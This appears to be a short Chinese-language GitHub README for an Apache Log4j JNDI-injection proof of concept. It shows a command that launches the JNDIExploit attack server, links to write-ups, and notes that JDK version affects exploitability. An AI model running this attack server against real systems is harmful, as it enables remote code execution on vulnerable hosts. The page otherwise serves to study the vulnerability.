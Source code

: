 # apache_log4j_poc
apache log4j poc—— base Maven

![在这里插入图片描述](https://img-blog.csdnimg.cn/d11b7347edf2480a875ebfdd66ea2670.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)



使用[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)开启jndi服务器：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.171.1 -l 12344 -p 9999 
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8688b2a947334855ac43d72f79b870a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/e2e1d9d7530948fdb118ac124cabc012.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)

参考文章：[https://www.codenong.com/f23e29b783ff38df36c9/](https://www.codenong.com/f23e29b783ff38df36c9/)

## 总结
[JNDI注入原理及利用](https://xz.aliyun.com/t/6633#toc-7)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3a4e7244ac8545279e15fef220f64d21.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)


```
JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。
```
这个漏洞的利用跟JDK中的配置有很大关系，换句话说跟jdk版本关系很大。
只要JDK版本无漏洞，那么apache log4j的这个RCE就很难利用成功。

